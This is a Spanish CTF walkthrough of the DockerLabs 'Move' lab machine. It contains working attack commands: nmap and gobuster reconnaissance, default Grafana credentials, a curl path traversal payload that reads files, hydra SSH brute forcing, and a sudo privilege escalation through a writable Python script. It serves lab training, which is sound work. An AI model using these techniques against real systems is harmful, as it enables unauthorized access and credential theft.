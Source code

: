 # MOVE - DOCKERLABS

## INFORMACIÓN Y DESPLIEGUE DE LA MÁQUINA

Esta máquina es de [DockerLabs](https://dockerlabs.es)

Para descargarla vas a [DockerLabs](https://dockerlabs.es) y buscas la máquina Move. Abres el enlace de mega, descargas el zip, lo descomprimes y ejecutas `bash ./auto_deploy.sh ./move.tar`. De esta forma se ejecutará el contendor de docker de la máquina.

### descripción

- Dificultad: fácil
- Sistema Operativo: linux
- Autor: El Pingüino de Mario

## ESQUEMA

![move](https://github.com/user-attachments/assets/0a0cb487-d132-4a0b-b9a5-19b04768f525)

## RECONOCIMIENTO DE RED

### conectividad y SO

Antes de empezar con el escaneo ed puertos, comprobamos que tengamos conectividad con la máquina:

```python
ping -c 1 172.17.0.2
```

![image](https://github.com/user-attachments/assets/5f1907b2-25b6-4c1d-8d68-e2aaf43d49ec)

Vemos que recibimos respuesta con TTL 64, por lo que el sistema operativo seguramente sea Linux.

### puertos y servicios

Hacemos un escaneo de todo el rango de puertos por TCP con nmap:

```python
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG tcp_ports
```

> `-p-`: todo el rango de puertos

> `--open`: solo reportar los puertos abiertos

> `-sS`: usar el método de escaneo SYN, que es más sigiloso y rápido que el normal. Requiere privilegios a nivel de sistema para enviar raw packets

> `--min-rate 5000` enviar como mínimo 5000 paquetes por segundo

> `-vvv` triple verbose. Nada más descubrir un puerto lo muestra por pantalla, también muestra más información de lo normal sobre el escaneo

> `-n` no hacer resolución DNS

> `-Pn` no hacer host discovery

> `-oG tcp_ports` exportar el output en formato grepeable al archivo `tcp_ports`

![image](https://github.com/user-attachments/assets/a0622c0c-535e-405a-8e6a-c50b4e956dda)

#### puertos abiertos

**22 - TCP - SSH**

**80 - TCP - HTTP**

**3000 - TCP - PPP?**

Ahora hacemos sobre estos tres puertos un escaneo de versiones y también lanzamos scripts de reconocimiento estándar:

```python
nmap -p22,80,3000 -sCV 172.17.0.2 -oN targeted
```

> `-p22,80,3000` hacer el escaneo solo sobre estos tres puertos

> `-sCV` lanzar escaneo de versiones y scripts estándar de reconocimiento

> `-oN targeted` exportar el output al archivo `targeted`, en formato nmap

![image](https://github.com/user-attachments/assets/38911510-1fb2-4f54-9a84-f23727d3cb97)

Vemos que en el puerto 3000 hay un servicio HTTP. Probablemente sea Grafana, ya que el puerto 3000 es su puerto por defecto.

## RECONOCIMIENTO WEB

Primero empezamos con el servicio HTTP del puerto 80. Desde consola hacemos `whatweb http://172.17.0.2`:

![image](https://github.com/user-attachments/assets/bbcf2071-acaa-4a73-ad27-1510fbdb4faf)

No vemos nada interesante. Cargamos la web en el navegador:

![image](https://github.com/user-attachments/assets/4c5bb67c-3657-4f8c-99c1-0565feaf6940)

Vemos la web de Apache2 por defecto de Debian. Probamos a hacer fuzzing con gobuster, usando el directory-list-2.3-medium.txt:

```python
gobuster dir -u http://172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,php.bak,txt,py,cgi,bin,pl,sh,rb,c,cpp,html,js,bak
```

![image](https://github.com/user-attachments/assets/dedd6bbb-b630-4f51-8a1d-f89ca57760b7)

Vemos un archivo llamado maintenance.html:

![image](https://github.com/user-attachments/assets/ac314719-6497-4488-9e47-18619c11e215)

Pone "acceso en /tmp/pass.txt", pero por ahora no nos sirve de nada ya que no tenemos ningún LFI, Path Traversal o cualquier forma de ver el archivo.

Pasamos al puerto 3000. Hacemos `whatweb http://172.17.0.2:3000`:

![image](https://github.com/user-attachments/assets/cf9c76d8-4b42-4e5f-98a3-01b69188bde0)

Vemos que se nos redirige a http://172.17.0.2:3000/login, y que se usa Grafana. Cargamos la web en el navegador:

![image](https://github.com/user-attachments/assets/869c49fb-8424-449b-ac63-1dd6f498e12b)

Vemos el panel de login de Grafana. Probamos a poner admin:admin, y funciona. Ahora estamos en el panel de administración:

![image](https://github.com/user-attachments/assets/2f37df60-cb37-428e-bab9-daef84e859b9)

Si buscamos en Google "Grafana exploit", vemos esto: https://exploit-notes.hdks.org/exploit/web/grafana-pentesting/. Si nos metemos, vemos que hay una ruta de Grafana en la que hay un Path Traversal. Nos podría servir para ver el archivo /tmp/pass.txt.

```python
curl --path-as-is http://172.17.0.2:3000/public/plugins/alertlist/../../../../../../../../tmp/pass.txt -o pass.txt
```

Ahora hacemos `cat pass.txt`:

![image](https://github.com/user-attachments/assets/3f397bd7-915e-4a0d-81cc-08259b2c9b7d)

Y vemos lo que parece ser una contraseña. Podemos hacer fuerza bruta de usuarios con esta contraseña por SSH:

```python
hydra -L /usr/share/wordlists/rockyou.txt -p t9sH76gpQ82UFeZ3GXZS ssh://172.17.0.2
```

![image](https://github.com/user-attachments/assets/85254cc5-234f-4431-86af-7ec26447a504)

Consigue encontrar un usuario llamado freddy. Ahora para conectarnos hacemos `ssh freddy@172.17.0.2` y de contraseña t9sH76gpQ82UFeZ3GXZS.

## TRATAMIENTO TTY

```python
script /dev/null -c bash
Ctrl+Z
stty raw -echo; fg
reset
xterm
export TERM=xterm
export SHELL=bash
stty rows <filas> columns <columnas>
```

Para ver el número de filas y columnas que usa tu pantalla, ejecutas `stty -a`.

## ESCALADA DE PRIVILEGIOS (ROOT)

Siendo el usuario freddy, hacemos `sudo -l` para ver nuestros privilegios especiales de sudo:

![image](https://github.com/user-attachments/assets/afd2195f-9de7-4cb5-948e-0cd9737be5dc)

Vemos que podemos ejecutar como cualquier usuario, sin usar nuestra contraseña, el script /opt/maintenance.py usando el intérprete /usr/bin/python3. Si hacemos `ls -l /opt/maintenance.py`, vemos que freddy es el propietario del script y que podemos modificarlo. Entonces lo abrimos con nano, importamos la librería os y ejecutamos una bash:

![image](https://github.com/user-attachments/assets/6130e5b0-0163-4d3e-a6f4-5a8a27c92ebc)

Ahora lo guardamos, y hacemos `sudo /usr/bin/python3 /opt/maintenance.py`:

![image](https://github.com/user-attachments/assets/b665df18-c32e-4824-aed4-1473641a0792)

Y ganamos una bash como root en la máquina Move.